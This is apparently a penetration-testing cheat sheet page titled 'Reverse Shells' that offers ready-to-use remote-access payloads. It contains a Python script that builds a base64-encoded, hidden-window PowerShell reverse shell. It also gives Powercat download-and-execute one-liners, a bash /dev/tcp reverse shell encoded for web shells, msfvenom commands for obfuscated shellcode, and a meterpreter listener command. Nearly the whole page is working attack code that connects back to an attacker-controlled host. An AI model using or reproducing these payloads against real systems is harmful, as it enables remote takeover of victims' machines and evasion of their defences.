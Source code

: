 ```yaml
---
description: Various reverse shell techniques in fast go cheat-sheet format
layout:
  title:
    visible: true
  description:
    visible: true
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Reverse Shells

### PowerShell Base64

Generate base64 encoded payload for reverse shell for windows target.

{% code title="windows-rev-b64.py" overflow="wrap" %}
```python
import sys
import base64

def generate_payload(ip, port):
    payload = (
        f"$client=New-Object System.Net.Sockets.TCPClient('{ip}',{port});"
        "$stream=$client.GetStream();"
        "[byte[]]$bytes=0..65535|%{0};"
        "while(($i=$stream.Read($bytes,0,$bytes.Length)) -ne 0){"
        "$data=(New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0,$i);"
        "$sendback=(iex $data 2>&1 | Out-String);"
        "$sendback2=$sendback+'PS '+(pwd).Path+'> ';"
        "$sendbyte=([text.encoding]::ASCII).GetBytes($sendback2);"
        "$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};"
        "$client.Close()"
    )
    return payload

def generate_cmd(ip, port):
    payload = generate_payload(ip, port)
    cmd = "powershell -nop -w hidden -e " + base64.b64encode(payload.encode('utf16')[2:]).decode()
    return cmd

if __name__ == "__main__":
    if len(sys.argv) != 3:
        print("Usage: python script.py <ip> <port>")
        sys.exit(1)
    
    ip = sys.argv[1]
    port = sys.argv[2]
    
    cmd = generate_cmd(ip, port)
    print(cmd)

```
{% endcode %}

Usage:

```bash
python windows-rev-b64.py <local_ip> <local_port>
```

### Powercat

Serve Powercat.ps1

```bash
cd /usr/share/windows-resources && python3 -m http.server 80
```

Start a `netcat` listener

```
rlwrap nc -lvnp 4444
```

Run one of the commands:

{% tabs %}
{% tab title="Batch" %}
```batch
powershell -c "IEX (New-Object System.Net.Webclient).DownloadString('http://<local_host>/powercat.ps1'); powercat -c <local_host> -p <local_port> -e powershell"
```
{% endtab %}

{% tab title="Powershell" %}
```powershell
IEX (New-Object System.Net.Webclient).DownloadString("http://<local_host>/powercat.ps1");powercat -c <local_host> -p <local_port> -e powershell 
```
{% endtab %}
{% endtabs %}

### Bash pipe

Base64 Encoded Bash - useful for web shells.

```bash
echo 'bash -i>& /dev/tcp/<ip>/4444 0>&1' | base64
```

### Msfvenom&#x20;

Generating shell code

{% code overflow="wrap" %}
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=<LHOST> LPORT=<LPORT> -f powershell -v sc
```
{% endcode %}

Generating obfuscated shell code with bad words:

{% code overflow="wrap" %}
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=<LHOST> LPORT=<LPORT> EXITFUNC=thread -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"
```
{% endcode %}

Start meterpreter listener one-liner

```bash
msfconsole -x "use exploit/multi/handler;set payload windows/meterpreter/reverse_tcp;set LHOST <LHOST>;set LPORT <LPORT>;run;"
```

## References

{% embed url="https://www.revshells.com/" %}
revshell generator
{% endembed %}

